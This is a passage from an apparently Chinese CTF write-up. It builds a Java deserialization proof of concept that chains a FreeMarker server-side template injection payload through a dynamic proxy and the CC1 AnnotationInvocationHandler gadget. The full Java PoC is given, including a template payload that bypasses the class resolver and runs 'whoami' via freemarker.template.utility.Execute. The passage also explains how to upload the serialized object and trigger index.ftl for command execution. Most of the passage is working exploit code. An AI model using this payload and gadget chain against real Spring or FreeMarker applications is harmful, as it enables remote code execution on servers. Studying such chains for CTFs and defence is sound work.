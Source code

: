 1. 构造`htmlMap`​需要上传的属性`filename`​ 为`index.ftl`​ `content`​ 为恶意的SSTI payload
2. new一个`htmlMap`​的处理器包裹
3. CC1后半条链子，通过`AnnotationInvocationHandler`​触发动态代理的调用处理器

```java
package com.ycbjava;
import com.ycbjava.Utils.HtmlInvocationHandler;
import com.ycbjava.Utils.HtmlMap;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.lang.annotation.Target;
import java.util.Map;
public class YCBPoC {

    public static void main(String[] args) throws Exception {
        HtmlMap htmlMap = new HtmlMap();
        htmlMap.filename="index.ftl";
        htmlMap.content="<#assign ac=springMacroRequestContext.webApplicationContext>\n" +
                "  <#assign fc=ac.getBean('freeMarkerConfiguration')>\n" +
                "    <#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()>\n" +
                "      <#assign VOID=fc.setNewBuiltinClassResolver(dcr)>${\"freemarker.template.utility.Execute\"?new()(\"whoami\")}\n";
        HtmlInvocationHandler html = new HtmlInvocationHandler(htmlMap);
        Map proxy = (Map) Proxy.newProxyInstance(YCBPoC.class.getClassLoader(), new Class[] {Map.class}, html);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor a = c.getDeclaredConstructor(Class.class, Map.class);
        a.setAccessible(true);
        Object exp = a.newInstance(Target.class, proxy);
        System.out.println(serial(exp));
        deserial(serial(exp));

    }
    public static String serial(Object o) throws IOException, NoSuchFieldException {
        ByteArrayOutputStream stream = new ByteArrayOutputStream();
        ObjectOutputStream stream1 = new ObjectOutputStream(stream);
        stream1.writeObject(o);
        stream1.close();
        String base64String = Base64.getEncoder().encodeToString(stream.toByteArray());
        return base64String;

    }
    public static void deserial(String data) throws Exception {
        byte[] base64decodedBytes = Base64.getDecoder().decode(data);
        ByteArrayInputStream b = new ByteArrayInputStream(base64decodedBytes);
        ObjectInputStream o = new ObjectInputStream(b);
        o.readObject();
        o.close();
    }
}
```

然后将结果打入

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-092b13b6e825293e3596fb49a53fbf44db41ba80.png)​

‍

然后去触发`index.ftl`​​即可执行命令![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-40d91e6e485a85200fbb3af0fd4d814649cc44f4.png)​

‍